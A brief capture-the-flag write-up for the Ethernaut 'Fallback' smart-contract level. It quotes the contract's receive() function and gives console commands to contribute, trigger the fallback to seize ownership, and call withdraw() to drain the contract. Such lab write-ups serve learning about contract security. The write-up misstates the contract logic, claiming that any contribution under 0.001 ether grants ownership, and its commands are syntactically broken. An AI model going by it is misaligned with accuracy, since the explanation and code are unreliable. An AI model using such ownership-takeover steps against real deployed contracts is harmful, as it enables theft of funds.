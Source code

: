 # 0. Fallback

You will beat this level if:

1. you claim ownership of the contract
2. you reduce its balance to 0

Things that might help:

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods

For part 1, our address needs to claim ownership of the contract.
There is a fallback function that sets the owner to msg.sender if the conditions are met. 

``` 
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

the contribute function checks if the contribution is less than 0.001 ether and if it's true, the msg.sender takes ownership of the contract. 

```
toWei("0.001") => returns 1000000000000000
```
returns the value of ether to wei, so any contribution less than '1000000000000000' will allow msg.sender to take ownership of the contract. 

```
contract.contribute({100})
contract.sendTransaction({100})
contract.withdraw()
```

once ownership of the contract is taken, we can access the withdraw() function to drain the contract. 




